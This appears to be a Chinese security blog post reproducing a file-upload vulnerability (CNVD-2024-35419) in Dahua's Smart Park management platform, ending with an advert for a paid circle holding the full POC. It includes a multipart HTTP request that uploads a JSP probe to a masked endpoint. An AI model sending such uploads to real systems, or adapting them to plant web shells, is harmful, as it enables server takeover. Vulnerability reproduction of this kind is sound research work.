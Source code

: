 #  【1day】⼤华智慧园区综合管理平台⽂件上传(CNVD2024-35419)   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-12 09:00  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
系统介绍  
  
大华智慧园区综合管理平台  
旨在通过构建统一的管理和服务平台，整合园区内的人、车、物、事件等多维度数据，实现园区的智能化、精细化管理。该平台主要面向商业园区、产业园区、高校园区等多种场景，提供从安防监控、设备管理到人员管理、访客管理、车辆管理等多方面的综合解决方案  
  
资产测绘  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMzia070HD1CkSMgyP9j5CugFDYTgiabpG9BP8OjR39FgWCufvCxmrniaBzhw/640?wx_fmt=png&from=appmsg "")  
  
  
2  
  
Action  
  
漏洞复现  
  
直接使用payload，向目标接口上传文件  
```
POST /******/*******.***** HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 199

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="upLoadFile"; filename="example.jsp"
Content-Type: text/plain
<%= 4*7%>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMzia1czYMy4x9KnEic1vazr4CH0NpH3Pc0YNFvCBIFFJFZ0QrdPEtsnXP5w/640?wx_fmt=png&from=appmsg "")  
  
然后根据代码设定的上传文件名规则拼接成对应的文件名称，访问文件上传后文件存放的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaZFbJj14JtJ0B78wA52xH9EvHCjAy1k7o25nHwJLRXu56Sia6bqCrIKA/640?wx_fmt=png&from=appmsg "")  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
文章中涉及的完整POC及代码审计报告已上传至纷传圈子中，需要的师傅可以自取哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaiaUZ9b3d40xXpSzR5icxvb4K6XCVp60wzvaiayiaqMR15U0wZ9oQmUKHUQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
